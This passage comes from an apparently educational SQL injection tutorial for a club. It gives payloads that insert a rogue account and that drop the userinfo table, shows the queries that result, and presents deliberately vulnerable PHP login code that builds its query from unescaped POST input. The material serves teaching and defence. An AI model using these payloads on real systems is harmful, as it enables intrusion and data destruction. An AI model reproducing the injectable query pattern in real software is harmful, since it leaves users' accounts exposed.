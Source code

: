 ```
1) Adding something to the table
'; INSERT INTO userinfo ('Username', 'Password', 'Email') VALUES ('thehacker', '2kvLXCR', 'ugot@hacked.com'); #

2) Deleting everything
'; DROP TABLE userinfo; # 
```

The resultant queries:

```sql
# 1)
SELECT Email FROM userinfo WHERE Username=''; INSERT INTO userinfo ('Username', 'Password', 'Email') VALUES ('thehacker', '2kvLXCR', 'ugot@hacked.com'); #'

# 2)
SELECT Email FROM userinfo WHERE Username=''; DROP TABLE userinfo; #' 
```

You can see how dangerous and malicious this is. Please DO NOT try this on actual websites. However, you do have full permission to engage CAMS CSC servers in any way you like.

### Logging In

Many websites employ some form of a login system. Most of those login systems utilize SQL. Let's look at an example of a simple login system. I have highlighted the flaws.

```php
<?php

//Create a new database
$database = new mysqli( 'localhost', 'DB_USER', 'DB_PASS', 'tutorial_2' );

//For debugging purposes in case the connection failed
if( !$database )
{
	die( 'MySQL: Wrong credentials' );
}

//Set the character set
$database->set_charset("utf8");

//Get the posted username and password
$user = $_POST['username'];
$pass = $_POST['password'];

//Execute a query
$result = $database->query
(
	"SELECT * FROM userinfo WHERE Username='$user' AND Password='$pass'"
);

//Checks whether the query was successful and whether there is actually data (at least 1 row of matching data)
if( !$result || mysqli_num_rows( $result ) == 0 )
{
	die( 'Error' );
}
else
{
	//Code to perform action when user successfully logs in.
}

?>
```
